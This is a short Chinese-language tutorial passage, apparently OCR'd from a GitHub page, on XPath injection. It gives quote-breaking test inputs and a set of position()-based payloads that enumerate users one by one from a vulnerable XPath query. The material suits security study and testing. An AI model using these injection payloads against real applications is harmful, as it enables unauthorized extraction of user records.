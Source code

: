 注入时，我们知道对于字符串类型，将使用单引号或双quoute，我们可以使用`" or ""=" `检查双引号，并且可以使用`  ' or ''=' `检查单引号，现在让我们假设一个简单的查询。

`/root/parent/something[username='our_input_here']/user  `

我们输入一个用户名作为查询条件，用户名将被提取。 现在我们知道，如果我们使用` ' or ''=' `使条件成立，我们将能够看到第一个用户的详细信息。 但是，我们想要逐个枚举每个用户。 因为我们知道position()函数会逐个选择每个节点。 所以我们可以用它来逐一枚举每个用户。

```
/root/parent/something[username='' or position()=1 or '']/user
/root/parent/something[username='' or position()=2 or '']/user
/root/parent/something[username='' or position()=3 or '']/user
/root/parent/something[username='' or position()=4 or '']/user
/root/parent/something[username='' or position()=5 or '']/user
```